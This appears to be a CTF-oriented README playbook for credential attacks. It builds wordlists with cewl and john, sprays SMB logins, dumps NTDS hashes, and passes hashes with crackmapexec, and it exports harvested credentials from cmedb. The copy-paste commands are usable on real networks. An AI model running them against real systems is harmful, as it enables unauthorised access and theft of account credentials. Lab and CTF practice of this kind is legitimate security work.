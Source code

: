 No more forgetting to collect the obvious clues into a wordlist and manage the accretion of users, password hashes and passwords (clear).

This is 'workflow' / 'playbook' . Jut some simple steps to follow, ideally with copy and paste.  No more missing the obvious clues for usernames and passwords. It would also be great to have some malortron integration too.

The tools in the workflow:
* cewl
* nmap (-sC)
* crackmapexec
* bash pipelines
* john (for rules)
* john (for cracking)
* hashcat (for cracking)

The workflow has a repeated 'core':
1. take 'output' (usernames, clear passwords, wordlists)
2. rules them
3. append to ongoing wordlist

In each workflow task there is a) 'use ongoing wordlist' and b) 'feed outputs into the core.'

# Core

TODO take all words, usernames and passwords, concat and best64 them. save as `guesses.txt`

? If there are no users discovered, copy `guesses.txt` to `users.txt` ?

# CeWL -- Add to the Wordlist

`cewl -d 3 -a -m 4 --with-numbers -v -w wordlist.txt https://target.domain/` 

# CrackMapExec -- use guesses

`crackmapexec smb -d DOMAIN -u ${ctf}/users.txt -p ${ctf}/guesses.txt --ntds drsuapi 10.1.0.100`

`--sam` instead for listing local accounts
`==shares` instead for listing shares

# CrackMapExec -- use hashes

`crackmapexec smb -d DOMAIN -u ${ctf}/users.txt -H ${ctf}/hashes.txt --ntds drsuapi 10.1.0.100`

# CrackMapExec -- save usernames, passwords, hashes

`{ echo export creds csv creds.csv; echo exit; } | cmedb ; awk -F "\"*,\"*" '{print $3}' creds.csv > users.txt` save users to `users.txt`

`{ echo export creds plaintext passwords.txt; echo exit; } | cmedb` save plaintext/passwords to `passwords.txt`

`{ echo export creds hashes hashes.txt; echo exit; } | cmedb` save hashes to `hashes.txt`
